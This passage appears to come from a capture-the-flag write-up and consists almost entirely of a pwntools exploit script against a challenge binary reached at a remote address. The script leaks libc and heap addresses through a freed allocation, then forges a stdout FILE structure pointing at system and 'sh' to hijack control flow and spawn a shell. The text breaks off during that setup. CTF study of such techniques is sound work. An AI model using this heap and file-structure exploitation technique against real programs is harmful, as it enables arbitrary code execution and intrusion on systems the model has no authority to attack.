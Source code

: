 ### Final Exploit

```py
from pwn import *

context.binary = elf = ELF("./chal")
libc = elf.libc

# p = process(elf.path)
p = remote("167.71.108.36", 30301)

def alloc(size, data):
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"size: ", str(size).encode())
    p.sendlineafter(b"data:\n", data)

def delete(idx):
    p.sendlineafter(b"> ", b"6")
    p.sendlineafter(b"id: ", str(idx).encode())

def parse(idx):
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"id: ", str(idx).encode())

def export(idx, mem=1):
    p.sendlineafter(b"> ", b"5")
    p.sendlineafter(b"id: ", str(idx).encode())
    p.sendlineafter(b"> ", str(mem).encode())

def modify(idx, data):
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"id: ", str(idx).encode())
    p.sendlineafter(b"data:\n", data)

def save(idx, filename):
    p.sendlineafter(b"> ", b"4")
    p.sendlineafter(b"id: ", str(idx).encode())
    p.sendlineafter(b"filename: ", str(filename).encode())

MARKER = 0xB16C0FFEE

alloc(0x1d0, p64(MARKER) + b"HELLOWORLD")
parse(0)
delete(0)
save(0, b"asd")
export(0)
leak = p.recvline()
libc.address = u64(leak[0x68:0x70]) - 2061984
heap_leak = u64(leak[8:16])
log.info(f"libc leak @ {hex(libc.address)}")
log.info(f"heap leak @ {hex(heap_leak)}")

standard_FILE_addr = libc.sym._IO_2_1_stdout_
fs = FileStructure()
fs.flags = unpack(b"  " + b"sh".ljust(6, b"\x00"), 64)  # "  sh"
fs._IO_write_base = 0
fs._IO_write_ptr = 1
fs._lock = standard_FILE_addr-0x10
fs.chain = libc.sym.system
fs._codecvt = standard_FILE_addr
fs._wide_data = standard_FILE_addr - 0x48
fs.vtable = libc.sym._IO_wfile_jumps

```